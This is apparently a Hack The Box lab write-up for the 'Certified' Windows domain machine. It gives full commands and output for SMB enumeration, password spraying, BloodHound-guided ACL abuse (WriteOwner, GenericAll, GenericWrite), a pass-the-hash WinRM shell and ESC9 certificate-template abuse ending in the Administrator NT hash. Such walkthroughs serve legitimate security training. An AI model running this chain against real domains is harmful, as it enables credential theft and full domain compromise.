

# Entry
its common Windows pentest so its starting with creds
.png>)

>alright our target : 10.10.11.41
>creds : judith.mader / judith09

This is default AD box so i will start with nxc instead of nmap
```sh
➜  certified nxc smb 10.10.11.41
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
```
so our etc/hosts

```sh
➜  certified cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.10.11.41     DC01.certified.htb certified.htb
```

we have creds already so lets look at shares

```sh
➜  certified nxc smb DC01.certified.htb -u judith.mader -p 'judith09' --shares               
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             [*] Enumerated shares
SMB         10.10.11.41     445    DC01             Share           Permissions     Remark
SMB         10.10.11.41     445    DC01             -----           -----------     ------
SMB         10.10.11.41     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.41     445    DC01             C$                              Default share
SMB         10.10.11.41     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.41     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.41     445    DC01             SYSVOL          READ            Logon server share 
```

instead of look at them one of one lets use spider_plus for all files in shares


and lets look at if we have something interesting


nothing interesting

lets grab usernames list and lets check if another user use judtih’s password as password

```sh
➜  certified nxc smb DC01.certified.htb -u judith.mader -p 'judith09' --users       
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-            
SMB         10.10.11.41     445    DC01             Administrator                 2024-05-13 14:53:16 0       Built-in account for administering the computer/domain
SMB         10.10.11.41     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.10.11.41     445    DC01             krbtgt                        2024-05-13 15:02:51 0       Key Distribution Center Service Account
SMB         10.10.11.41     445    DC01             judith.mader                  2024-05-14 19:22:11 0        
SMB         10.10.11.41     445    DC01             management_svc                2024-05-13 15:30:51 0        
SMB         10.10.11.41     445    DC01             ca_operator                   2024-05-13 15:32:03 0        
SMB         10.10.11.41     445    DC01             alexander.huges               2024-05-14 16:39:08 0        
SMB         10.10.11.41     445    DC01             harry.wilson                  2024-05-14 16:39:37 0        
SMB         10.10.11.41     445    DC01             gregory.cameron               2024-05-14 16:40:05 0 
```
now we can save it as nxcusers.txt and we can extract username list



> and here i used --continue-on-success because spray for all users
{: .prompt-tip }


okey nothing we got yet lets check if creds work for LDAP if its we can dump BH data here

### BloodHound-data
.png)

lets analyze it


our user has WriteOwner at Management group lets check what Management can do????


thats great we found another interesting things lets look at what management_svc can do????


thats great!!!!! so our attack should be Judith.Mader → Management → Management_svc → ca_operator so lets go Pathfinding and look at Judith.Mader → → → ca_operator


Here everyting we have to do!!!!!

> my attack aim:

1- Use WriteOwner with judith.mader for management group and after that we can add ourself this group with full privileges (genericAll)

2-Now we are member of Management Group with full privilges we can use GenericWrite with judith.mader for management_svc and grab his NT hash

3-We have genericAll for ca_operator so we can change its password etc…

Lets start!!!!

### WriteOwner

Bloodhound already give us command so we  can use it directly

.png>)

```sh
➜  certified python3 /opt/impacket/examples/owneredit.py -action write -new-owner 'judith.mader' -target 'management' 'certified.htb'/'judith.mader':'judith09'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```

nice!! lets give us full privileges on Management

im gonna use [my bloodyAD repo](https://github.com/lineeralgebra/autobloodyAD) for this one

usage:
.png)

```sh
➜  certified bloodyAD --host DC01.certified.htb -d certified.htb -u judith.mader -p judith09 add genericAll management judith.mader

[+] judith.mader has now GenericAll on management
```
thats great so lets ourself in group so we can use Management privileges (GenericWrite) for management_svc


```sh
➜  certified bloodyAD --host DC01.certified.htb -d certified.htb -u judith.mader -p judith09 add groupMember Management judith.mader

[+] judith.mader added to Management
```
now we can do GenericWrite for management_svc with judith.mader

### GenericWrite
i wanna use here certipy-ad for grab hash instead of using Bloodhound reccomend
.png)

as u can see we cannot do it its because with our kali time and machine time does not match

> The error "KRB_AP_ERR_SKEW (Clock skew too great)" occurs because Kerberos enforces strict time synchronization between the client and the domain controller. If there is a significant time difference (usually more than 5 minutes), authentication fails.
{: .prompt-tip }

how to fix??????


now we got new user!!!!

management_svc : a091c1832bcdd4677c28b5a6a1295584

```sh
➜  certified nxc winrm DC01.certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
WINRM       10.10.11.41     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.41     5985   DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 (Pwn3d!)
```
and we got user.txt
```powershell
➜  certified evil-winrm -i DC01.certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> cd ..
*Evil-WinRM* PS C:\Users\management_svc> cd Desktop
*Evil-WinRM* PS C:\Users\management_svc\Desktop> dir


    Directory: C:\Users\management_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/13/2025   1:37 AM             34 user.txt
```

now we have GenericAll for user ca_operator so we can grab his hash with cerrtipy again

### GenericAll

we have ca_operator hash rn!!!!

ca_operator : b4b86f45c6018f1b664f70805f45d8f2

its seems like Certificate users maybe its about ESCX

## ESC9

```sh
➜  certified certipy-ad find -dc-ip 10.10.11.41 -u ca_operator -hashes b4b86f45c6018f1b664f70805f45d8f2 -ns 10.10.11.41 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication

    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```
alright its ESC9!!!

.png>)

BUT YEAH WE [blog_post](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7?gi=a6e7f3ed71c2) for this


everything we need is here!!!!

but we will do it with Management_svs account!

### Updating UPN of ca_operator

```sh
➜  certified certipy-ad account update -username management_svc@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn administrator           
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'
```
### Request Administrator pfx file

before do this we need CA and Template its on the certipy-ad find command!!


```sh
➜  certified certipy-ad req -username ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'CERTIFIED.HTB' at '192.168.1.1'
[+] Resolved 'CERTIFIED.HTB' from cache: 10.10.11.41
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
### Restoring Original UPN
```sh
➜  certified certipy-ad account update -username management_svc@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn ca_operator@certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```
### Obtaining Administrator TGT
```sh
➜  certified ntpdate -q 10.10.11.41
2025-03-13 05:49:28.253783 (-0400) +25260.690655 +/- 0.039840 10.10.11.41 s1 no-leap
➜  certified faketime '2025-03-13 05:49:28' certipy-ad auth -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```
